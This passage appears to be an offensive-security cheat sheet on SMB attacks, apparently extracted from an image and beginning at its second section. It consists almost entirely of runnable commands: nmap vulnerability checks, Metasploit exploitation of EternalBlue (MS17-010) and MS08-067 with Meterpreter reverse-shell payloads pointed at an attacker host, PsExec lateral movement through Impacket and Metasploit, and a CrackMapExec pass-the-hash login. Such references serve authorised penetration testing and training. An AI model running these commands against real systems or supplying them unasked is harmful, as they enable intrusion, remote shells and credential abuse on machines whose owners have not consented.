### 2. Common SMB Vulnerabilities and Exploits

#### EternalBlue (MS17-010)
```bash
# Check vulnerability
nmap --script smb-vuln-ms17-010 -p445 <target_ip>

# Metasploit exploitation
use exploit/windows/smb/ms17_010_eternalblue
set rhosts <target_ip>
set payload windows/x64/meterpreter/reverse_tcp
set lhost <attacker_ip>
exploit
```

#### SMBv1 Vulnerabilities (MS08-067)
```bash
# Check vulnerability
nmap --script smb-vuln-ms08-067 -p445 <target_ip>

# Metasploit exploitation
use exploit/windows/smb/ms08_067_netapi
set rhosts <target_ip>
set payload windows/meterpreter/reverse_tcp
set lhost <attacker_ip>
exploit
```

### 3. Lateral Movement with PsExec

#### Using Impacket's psexec.py
```bash
python3 psexec.py <domain>/<username>:<password>@<target_ip>
```

#### Using Metasploit PsExec
```bash
use exploit/windows/smb/psexec
set smbdomain <domain>
set smbuser <username>
set smbpass <password>
set rhosts <target_ip>
set payload windows/meterpreter/reverse_tcp
set lhost <attacker_ip>
exploit
```

### 4. Pass-the-Hash Attacks

#### Using CrackMapExec
```bash
crackmapexec smb <target_ip> -u <username> -H <NTLM_hash>
```
